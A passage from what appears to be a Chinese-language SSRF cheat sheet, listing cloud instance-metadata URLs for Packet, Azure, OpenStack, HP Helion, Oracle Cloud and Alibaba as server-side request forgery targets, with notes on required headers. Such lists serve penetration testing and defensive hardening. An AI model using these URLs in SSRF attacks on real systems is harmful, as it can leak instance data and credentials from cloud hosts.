 ## Packetcloud的SSRF URL

文档位于 `https://metadata.packet.net/userdata`

## Azure的SSRF URL

有限制，可能还有更多？ `https://azure.microsoft.com/en-us/blog/what-just-happened-to-my-vm-in-vm-metadata-service/`

```powershell
http://169.254.169.254/metadata/v1/maintenance
```

2017年4月更新，Azure有更多支持；需要请求头"Metadata: true" `https://docs.microsoft.com/en-us/azure/virtual-machines/windows/instance-metadata-service`

```powershell
http://169.254.169.254/metadata/instance?api-version=2017-04-02
http://169.254.169.254/metadata/instance/network/interface/0/ipv4/ipAddress/0/publicIpAddress?api-version=2017-04-02&format=text
```

## OpenStack/RackSpace的SSRF URL

(需要请求头？未知)

```powershell
http://169.254.169.254/openstack
```

## HP Helion的SSRF URL

(需要请求头？未知)

```powershell
http://169.254.169.254/2009-04-04/meta-data/ 
```

## Oracle Cloud的SSRF URL

```powershell
http://192.0.0.192/latest/
http://192.0.0.192/latest/user-data/
http://192.0.0.192/latest/meta-data/
http://192.0.0.192/latest/attributes/
```

## Alibaba的SSRF URL

```powershell
http://100.100.100.200/latest/meta-data/
http://100.100.100.200/latest/meta-data/instance-id
http://100.100.100.200/latest/meta-data/image-id
```
